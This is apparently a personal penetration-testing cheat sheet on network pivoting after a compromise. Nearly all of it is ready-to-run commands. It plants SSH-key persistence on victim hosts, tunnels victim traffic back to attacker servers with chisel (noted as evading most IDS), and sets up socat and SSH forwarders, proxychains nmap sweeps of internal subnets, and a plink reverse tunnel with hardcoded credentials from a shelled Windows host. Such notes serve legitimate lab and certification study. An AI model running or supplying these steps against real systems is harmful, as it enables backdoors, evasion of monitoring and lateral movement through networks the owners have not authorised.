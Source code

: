 # Pivoting 

## Readme

https://cheatsheet.haax.fr/network/pivot_techniques/
https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html

## Note about chisel

chisel performs HTTP tunneling thus aboiding most IDS. Use encryption for better efficiency.

## Persist

It is important to establish persistence before moving forward with actions on objectives.

### Linux

#### private ssh key

1. copy roots private key: copy-paste in vim is enough

`vim root_key`

2. login via ssh using the key

`ssh -i root_key root@VICTIM_IP`

#### inject your own public key into authorized hosts

```bash
cat id_ed25519.pub >> authorized_keys

# root or any other user
ssh -l root VICTIM_IP
```

## Prot forwarding

```bash
# Listen on 443 and forward all incomming connections to local port 1389

socat -v TCP-LISTEN:443,reuseaddr,fork TCP:127.0.0.1:1389
```



##  Proxies

### Forward proxy

some service is listening at victim and connection is incomming from atacker 


### static  forwardin


 <local-interface>:<local-port>:<remote-host>:<remote-port>

which does  port forwarding, sharing server's `<remote-host>:<remote-port>` on clients `<local-interface>:<local-port>`
 
* workflow

Set up new server (this time non socks) on attacker

./chisel server --port 9902

Activate client on victims host

./chisel client 10.10.14.xxx:9902 192.168.1.15:8888:127.0.0.1:443 

So now listener is on 192.168.1.15:8888 which forwards requests to attacker's localhost port 443. Useful to make attacker's external server available from victim within restricted network.

### Reverse proxy

some service is listening at attacker AND connection is incomming from the victim outside firewall



#### static reverse

./chisel server -p 9903 --reverse on local 
./chisel client 10.10.xx.xx:9903 R:127.0.0.1:1280:172.16.xx.xx:80 &

This will open a listener on port 1280 on attackers localhost, and all connections to the target website on 172.16.xx.xx are going to be forwarded via pivot server at 10.10.xx.xx:9903

#### Dynamic reverse proxy

* In this scenario all ports from the victim pivot point aer redirected to attacker so attacker can access Next Victim, which
would be othervise not visible for his network adapter

`./chisel server -p 3333 --reverse --socks5`

* on server


```bash
sudo vim /etc/proxychains4.conf

# socks5 127.0.0.1 1080

./chisel client 172.16.40.5:3333 R:1080:socks

# test

proxychains nmap -F 10.185.10.0/24
```

### Using SSH


#### SSH Local Port Forwarding

* we need to forward packets to target via ssh client's port 4455 over sshserver to target's port 445. where 192.168.11.2 is a pivot point.

`ssh -N -L 0.0.0.0:4455:10.16.223.217:445 root@192.168.11.2`

Attacker can access remote victim port 445 locally on port 4455.

#### SSH Remote Port forwarding

`ssh -N -R 9999:localhost:8080 user@remote`

This command tells SSH to set up a tunnel from the remote machine's port 9999 to your local machine's port 8080. user@remote should be replaced with your actual SSH login credentials and server.

#### SSH Dynamic Port forwarding

```bash
ssh -D 8080 -f -C -q -N user@yourserver.com
```
-D 8080 sets up the SOCKS proxy on port 8080.

-f asks SSH to go into the background just before command execution.

-C enables compression.

-q enables quiet mode.

-N tells SSH not to execute a remote command.

Then make a socks5 entry in proxy chains for .

##### Multi Hop Scenatio

lets assume: localhost -> 10.11.2.3 -> tor


### Using Socat

#### Forward proxy with socat

`socat -ddd TCP-LISTEN:7777,fork TCP:10.1.11.213:3060`

This line is going to open a listener on 7777 and fork each new connection. New connections are then forwarded to `10.1.11.213:3060`.

This is especially useful if socat is installed on target but not possible to install chisel.

## Configuration for Burp

It can be tricky to use burp with socks but here is a good workaround

1. Setting -> Network -> Connections -> SOCKS proxy 
2. check> Use SOCKS proxy
3. `127.0.0.1 sock_port`
4. in browser selects burps normal proxy `default is 127.0.0.1 8080`
5. no when you browse: attacker -> burp proxy -> socks proxy -> victim
6. Profit!


## scanning with nmap

* run for getting open ports
`seq 1 65535 | xargs -P 50 -I port proxychains -q nmap -p port -sT -T4 10.42.42.2 -oG 10.42.42.2 --open --append-output 10.42.42.2 -Pn -n`

* remove bad lines and save to log file
`grep '/open/' 10.42.42.2 | uniq > openports.log`

* then scan each port separately

## Transparent VPN over ssh

* setup port forward to ssh server: `socat TCP-LISTEN:2222, fork TCP:10.11.222.3:22`
* use sshuttle (requires root privleges): sets up VPN and tunnels mentioned subnets

```bash

sshuttle -r root@127.0.0.1:2222 10.4.22.0/24 192.168.1.0/24

# now routing is setup on localhost to reach mentioned subnets
```

## SSH On windows with plink

use plink to tunnel once reverse shell on windows is obtained

`plink.exe -ssh -l kali -pw Password -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.203`

## DNS tunneling

